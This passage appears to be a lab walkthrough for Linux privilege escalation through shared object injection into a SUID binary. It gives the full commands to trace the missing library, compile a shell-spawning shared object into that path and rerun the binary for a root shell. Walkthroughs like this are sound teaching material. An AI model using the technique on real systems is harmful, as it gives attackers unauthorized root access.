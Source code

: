 The **/usr/local/bin/suid-so** SUID executable is vulnerable to shared object injection.

**First, execute the file and note that currently it displays a progress bar before exiting:**
```python
/usr/local/bin/suid-so
```

**Run "strace" on the file and search the output for open/access calls and for "no such file" errors:**
```python
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```
Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

**Create the ".config" directory for the libcalc.so file:**
```python
mkdir /home/user/.config
```
Example shared object code can be found at **/home/user/tools/suid/libcalc.c**. It simply spawns a Bash shell.

**Compile the code into a shared object at the location the "suid-so" executable was looking for it:**
```python
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

**Execute the "suid-so" executable again, and note that this time, instead of a progress bar, we get a root shell.**
```python
/usr/local/bin/suid-so
```

## Practically - 
### In target machine - 
![[linux_privesc19.png]]

